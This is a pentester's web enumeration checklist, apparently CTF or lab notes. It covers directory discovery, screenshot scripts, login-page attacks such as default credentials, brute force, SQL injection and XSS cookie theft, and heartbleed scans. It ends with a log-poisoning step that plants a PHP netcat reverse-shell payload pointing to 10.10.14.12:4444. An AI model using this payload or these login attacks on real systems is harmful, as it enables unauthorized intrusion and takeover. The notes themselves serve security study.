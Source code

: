 # Enumeration checklist

## Checklist

* [ ] Check what the web proxy
* [ ] Read entire pages. Enumerate for emails, names, user info etc
* [ ] Directory discovery
* [ ] Enum the interface, version of CMS? Server installation page?
* [ ] Potential vulnerability? LFI, RFI, XEE, Upload?
* [ ] Default web server page, version information
* [ ] View source code
* [ ] Hidden Values
* [ ] Developer Remarks
* [ ] Extraneous Code
* [ ] Passwords
* [ ] Robots.txt
* [ ] Web scanning

## Web Scanning

[<mark style="color:orange;">Web Scanning</mark>](https://app.gitbook.com/o/DePFHfBJGf9frqSqhss9/s/8Ph1wRzmHMLajrNtK3qw/\~/changes/16/information-gathering/active-information-gathering/http-s-tcp-80-443-8080-8443/web-scanning)

## Bruteforcing HTTP(s) directories and files

[<mark style="color:orange;">Directory discovery</mark>](https://app.gitbook.com/o/DePFHfBJGf9frqSqhss9/s/8Ph1wRzmHMLajrNtK3qw/\~/changes/16/information-gathering/active-information-gathering/http-s-tcp-80-443-8080-8443/directory-discovery)

## HTTP(s) certificates

**Might have username**

## Script to preview the website from IP in html&#x20;

**Create a list of the IP and Extract PNG**

```
  for ip in $(cat web-ip.txt | grep 80 | grep -v "Nmap" |
awk '{print $2}'); do cutycapt --url=$ip --out=$ip.png;done
```

&#x20;**Make it HTML pngtohtml.sh**

```
#!/bin/bash
# Bash script to examine the scan results through HTML.
echo "<HTML><BODY><BR>" > web.html
ls -1 *.png | awk -F : '{ print $1":\n<BR><IMG SRC=\""$1""$2"\" width=600><BR>"}' >> w
eb.html
echo "</BODY></HTML>" >> web.html
```

## Create a wordlist from webpage

* **Cewl**

## Redirecting webpage automatically ?

* **noredirect plugin**

## Login page

* [ ] View source code
* [ ] Use default password
* [ ] Brute force directory first (sometime you don't need to login to pwn the machine)
* [ ] Search credential by bruteforce directory
* [ ] bruteforce credential
* [ ] Search credential in other service port
* [ ] Enumeration for the credential
* [ ] Register first
* [ ] SQL injection
* [ ] XSS can be used to get the admin cookie
* [ ] Bruteforce session cookie

## Identity WAF

* **wafw00f**

## Find version vulnerability

* **Google**

## HTTPS  heartbleed

* **Scan for heartbleed**

```
sslscan $ip:443
nmap -sV --script=ssl-heartbleed $ip
```

## Password ?

When presented with an enter credentials page, the first thing I try is common credentials (admin/admin, admin/password).

If that doesn’t work out, I look for default credentials online that are specific to the technology. Last, I use a password cracker if all else fails.

## Log poisoning

**1 .  From LFI to RCE**

**2 . If you get local file inclusion for log, you maybe can log poisoning the log**

**3 . Change user agent by intercept in burp to this to get reverse shell**

```
nc -lnvp 4444
```

```
<?php exec('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.12 4444 >/tmp/f') ?>
```
